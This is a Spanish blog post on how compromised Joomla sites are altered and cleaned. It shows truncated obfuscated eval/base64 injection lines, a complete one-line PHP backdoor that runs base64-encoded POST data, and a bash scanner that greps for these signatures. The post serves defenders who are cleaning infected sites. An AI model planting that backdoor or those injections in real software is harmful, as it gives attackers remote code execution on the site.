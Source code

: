 ```yaml
---
title: Como es atacado un sistema Joomla (2º Parte)
date: 2012-06-18
description: Descubre cómo los atacantes comprometen sitios Joomla, los métodos utilizados para modificar archivos críticos y cómo proteger tu sitio eliminando código malicioso y reforzando la seguridad.
author: Francisco Javier Félix Belmonte
image: '/images/blog/post/como-es-atacado-un-joomla-2-parte.webp'
category: 'blog'
tags: [joomla, ataques, cms]
isDraft: false
---
```


Si en la [1º parte](Guias/Como-es-atacado-un-Joomla.html) explicamos cuáles son los métodos de ataque de un **CMS** tipo Joomla o Wordpress, ahora comentaremos de qué forma es modificado el Joomla y cómo podemos limpiarlo.

Normalmente los ficheros que se modifican primero son el `index.php`, pero en Joomla también son modificados:

```bash
/index.php
/includes/framework.php
/templates/xxxx/index.php
```

> Donde `xxxx` es el nombre de la plantilla que estamos usando.

Lo primero que tenemos que hacer es buscar en dichos ficheros, tanto al principio como al final, las siguientes sintaxis:

```php
eval(gzinflate(base64_decode('HJ3HbuvIFkU/5zXAAXMaMkcxi2nywJxz5te33IML+BqwJFbV2XstWZKLM+n/qd5mLPtkL/5Jk60gsP/nRT.......akxUhgBILEQ1AACIJo8Z9///79938=')));
eval(@gzinflate(base64_decode('HJ3HbuvIFkU/5zXAAXMaMkcxi2nywJxz5te33IML+BqwJFbV2XstWZKLM+n/qd5mLPtkL/5Jk60gsP/nRT.......akxUhgBILEQ1AACIJo8Z9///79938=')));
preg_replace("/.+/e","\x65\x76\x61\x6C\x28\x67\x7A\x69\x6E\x66\x6C\x61\x74\x65\x28......hPLidw/nyu/lEf6Xcg24Mhg8Bqov4C'\x29\x29\x29\x3B",".");
```

Estas líneas han sido cortadas por los puntos suspensivos, normalmente tienen más de 1200 caracteres, pudiendo llegar a 24.000, lo que nos hace sospechar de que algo raro pasa.  
En una primera limpieza, borraríamos las líneas o sustituiríamos los ficheros modificados por los originales o la última copia no alterada.

Luego buscaríamos estos patrones en el resto de ficheros y también podemos buscar por fecha de modificación.

Hay que estar atento a los ficheros modificados, porque también pueden incluir una puerta trasera. Y aunque limpiemos los ficheros o activemos sistemas de seguridad como [**suhosin**](http://www.hardened-php.net/suhosin/index.html) o [**mod_security**](http://www.modsecurity.org/), hay que buscar este código y eliminarlo.  
(*suhosin permite limitar el uso de `eval`, pero se necesitan conocimientos porque se podría dejar de funcionar ciertas partes de nuestra web.*)

```php
<?php if ($_POST["php"]){eval(base64_decode($_POST["php"]));exit;} ?>
```

Este fragmento, con un simple `POST`, permite al atacante volver a infectarnos y es difícil de detectar en los registros del **Apache**.

Como ejemplo, he creado un pequeño script en **bash** para buscar ficheros infectados. Aunque pueden aparecer algunos falsos positivos, siempre es recomendable revisarlos manualmente:

```bash
#!/bin/bash

malware() {
    find -type f -iname *.$1 | while read file
    do
        a=$(awk 'length($0) > 1020' "$file" | grep -e "base64_decode\|preg_replace")
        if [ "$a" ]; then
            echo "$file"
        fi
        b=$(grep "\$_POST" "$file" | grep -i base64_decode | grep -i eval)
        if [ "$b" ]; then
            echo "$file"
        fi
    done
}

malware phtml
malware php
malware phps
malware php5
```